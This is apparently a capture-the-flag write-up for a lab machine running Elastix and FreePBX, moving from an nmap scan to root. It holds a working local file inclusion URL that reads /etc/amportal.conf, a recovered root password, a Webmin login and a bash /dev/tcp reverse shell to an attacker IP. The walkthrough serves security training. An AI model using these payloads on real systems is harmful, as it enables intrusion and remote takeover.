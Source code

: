 # Recon
```
$ nmap -p- --min-rate 10000 10.10.10.7
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-01 17:02 EEST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.48% done; ETC: 17:02 (0:00:13 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.13s latency).
Not shown: 65476 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
443/tcp  open  https
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 18.01 seconds
```
- the webpage cannot be loaded due to Firefox and other browsers changing their min TLS version to a number higher than what the box supports
- Port 80 just returns a redirect to port 443 / HTTPS where there’s an an Elastix login page
- dirb shows us there is an admin page /admin
- going to admin page it asks for authentication
- hiting cancel prompts us to this page https://10.10.10.7/admin/reports.php which provide info like freepx
- searching for exploit for freepbx version and elastix we found a lfi vulun
- poc for lfi
- ```
  https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
  ```
- viewing the page source the page seems readable and found different password but the one i guess is right is this **jEhdIekWmdjE**
- ssh as root with this password some problem with ssh come up
- so i try to go to port 10000 and found a webmin trying root and the password and i got in
- create a task as root in scheduled commands
- ```
  bash -c 'bash -i >& /dev/tcp/10.10.16.5/444 0>&1'
  ```
- and now we go aroot shell

